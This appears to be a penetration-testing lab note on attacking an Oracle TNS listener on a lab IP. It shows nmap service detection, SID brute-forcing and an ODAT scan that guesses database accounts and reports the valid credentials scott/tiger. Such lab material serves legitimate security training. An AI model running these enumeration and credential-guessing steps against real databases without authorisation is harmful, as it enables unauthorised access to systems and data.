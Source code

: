 - designed to enumerate and exploit vulnerabilities in Oracle databases
- used to identify and exploit various security flaws in Oracle databases, including SQL injection, remote code execution, and privilege escalation

**Nmap**

```python
[!bash!]$ sudo nmap -p1521 -sV 10.129.204.235 --open

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-06 10:59 EST
Nmap scan report for 10.129.204.235
Host is up (0.0041s latency).

PORT     STATE SERVICE    VERSION
1521/tcp open  oracle-tns Oracle TNS listener 11.2.0.2.0 (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.64 seconds
```

- Needs SID(system identifier) is a unique name that identifies a particular database instance
- can have multiple instances
- if client doesn’t specify SID the default is defined in tnsnames.ora

### **Nmap - SID Bruteforcing**

```python
[!bash!]$ sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-06 11:01 EST
Nmap scan report for 10.129.204.235
Host is up (0.0044s latency).

PORT     STATE SERVICE    VERSION
1521/tcp open  oracle-tns Oracle TNS listener 11.2.0.2.0 (unauthorized)
| oracle-sid-brute: 
|_  XE

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.40 seconds
```

- We can use the [odat.py](http://odat.py/) tool to perform a variety of scans to enumerate and gather information about the Oracle database services and its components.
- those scan can retrieve database name, version running processes, user accounts, vulnerabilities, misconfigurations, etc

### **ODAT**

```python
[!bash!]$ ./odat.py all -s 10.129.204.235

[+] Checking if target 10.129.204.235:1521 is well configured for a connection...
[+] According to a test, the TNS listener 10.129.204.235:1521 is well configured. Continue...

...SNIP...

[!] Notice: 'mdsys' account is locked, so skipping this username for password           #####################| ETA:  00:01:16 
[!] Notice: 'oracle_ocm' account is locked, so skipping this username for password       #####################| ETA:  00:01:05 
[!] Notice: 'outln' account is locked, so skipping this username for password           #####################| ETA:  00:00:59
[+] Valid credentials found: scott/tiger. Continue...

...SNIP...
```